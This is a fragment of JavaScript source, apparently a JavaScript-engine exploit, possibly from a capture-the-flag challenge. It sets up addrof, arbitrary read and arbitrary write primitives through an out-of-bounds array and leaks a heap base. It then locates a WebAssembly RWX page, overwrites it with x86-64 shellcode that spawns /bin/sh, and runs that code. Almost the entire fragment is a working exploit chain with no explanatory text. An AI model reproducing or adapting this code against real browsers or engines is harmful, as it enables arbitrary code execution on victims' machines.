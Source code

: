 ```js
}

foo(0);
for(let i = 0; i < 100000; i++) {
    foo("0");
}

foo(-0)

const base = (BigInt(oob[9]) & 0xFFFFFFFFn) << 32n
print("HEAP BASE : " + hex(base))

function addrof(obj) {
   oo[0] = obj
   return base + (oob[13] & 0xFFFFFFFFn)
}

function aar(addr) {
   oob[20] = addr
   let buf = new BigUint64Array(arb);

   return buf[0];
}

function aaw(addr, value) {
   oob[20] = addr

   if(typeof value == "number") {
      let buf = new BigUint64Array(arb);
      buf[0] = value
   }

   else if(typeof value == "string") {
      let buf = new Uint8Array(arb);
      for(let i = 0; i < value.length; i++) {
         buf[i] = value[i].charCodeAt();
      }
   }
}

let wasmCode = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
let wasmModule = new WebAssembly.Module(wasmCode);
let wasmInstance = new WebAssembly.Instance(wasmModule);
     
let wasmFunction = wasmInstance.exports.main;

const Instance = addrof(wasmInstance)
const rwx = aar(addrof(wasmInstance)+0x5Fn)
print("RWX : "+hex(rwx))

let shellcode = "\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x48\x31\xc0\xb0\x3b\x99\x4d\x31\xd2\x0f\x05";

aaw(rwx, shellcode)

wasmFunction()

// while(1); // for debug

// ##END_OF_FILE##
```